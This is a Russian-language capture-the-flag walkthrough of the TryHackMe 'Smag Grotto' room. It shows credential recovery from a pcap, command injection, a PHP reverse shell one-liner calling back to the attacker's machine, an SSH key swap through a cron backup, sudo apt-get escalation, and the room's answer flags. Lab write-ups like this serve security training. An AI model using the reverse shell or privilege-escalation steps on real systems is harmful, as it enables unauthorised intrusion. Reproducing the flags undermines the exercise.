



# TryHackMe: Smag Grotto

## Task 1: Smag Grotto
```sh
nmap -sC -sV 10.10.73.169
```



Мы нашли:
- 22 port - SSH (OpenSSH 7.2p2)
- 80 port - HTTP (Apache httpd 2.4.18)

Зайдем на сайт, который располагается на порте 80:


Попробуем найти другие директории сайта при помощи **dirsearch**:


Находим директорию **/mail**:


Среди всего прочего находим **.pcap** файл. Скачаем его и откроем в **Wireshark**:


Среди захваченных пакетов находим пакет, внутри которого находится POST-запрос с передаваемыми данными:
- "username" - "helpdesk"
- "password" - "cH4nG3M3_n0w"


Теперь вопрос заключается в правильности этих данных:

 

Как видим, response code - 200, значит, при помощи этих данных кто-то смог авторизоваться на сайте. Также в разделе **Request URI** можно заметить доменное имя - **development.smag.thm**. Внесем его в файл **/etc/hosts**:
 


Перейдем теперь на сайт:


Подразумеваю, что для того, чтобы попасть на вкладку **admin.php**, нужно пройти аутентификацию на **login.php**. Данные для входа мы нашли ранее:



Вот мы и на странице **admin.php**:


Видим, что мы можем ввходить команды. Проверим это через Wireshark (на tun0). Попробуем произвести ping на нашу хостовую машину:


Как можно заметить, ICMP-запросы успешно получают от нас ответы. В таком случае пойдем дальше и попробуем реализовать reverse shell. Для начала поставим порт 4444 на прослушивание:


Сайт написан на php, поэтому php должен быть нам доступен. Формируем правильную команду:
```sh
php -r '$sock=fsockopen("<tun0 IP-address>",4444);exec("/bin/bash -i <&3>&3 2>&3");'
```


Запускаем команду к исполнению и видим, что она успешно отработала и вернула нам shell:


Как удалось выяснить далее, в системе присутствует пользователь **jake**. Первый флаг, находящийся в его директории нам пока что недоступен. 


Находим некие ключи в директории **/var/tmp**:


Но нас пока что это ни к чему толком не привело. Далее были просмотрены задачи в crontab:


Находим команду, которая из backup'а формирует ssh-ключи для пользователя **jake**. Собственно, надо подменить backup, чтобы оттуда подтягивалось то, что нам нужно. Проанализируем содержимое файла **/opt/.backups/jake_id_rsa.pub.backup**:


Попробуем заменить данный ключ на наш собственный. Первым, делом сгенерируем его:




Далее, изменим содержимое непосредственно в backup-файле:


Пробуем подключиться по SSH при помощи созданного нами ключа:


И да! Мы имеем доступ от имени пользователя jake, поэтому забираем первый флаг:


### Question 1: What is the user flag? - iusGorV7EbmxM5AuIe2w499msaSuqU3j

Далее посмотрим, какие команды мы можем выполнять относительно sudo:


Видим, что мы можем использовать **apt-get**. Посмотрим, возможно ли, используя данную команду получить привилегированный доступ (GTFORBins):


Применяем нужную нам команду и получаем root'а:


Забираем root-флаг:


### Question 2: What is the user root? - uJr6zRgetaniyHVRqqL58uRasybBKz2T
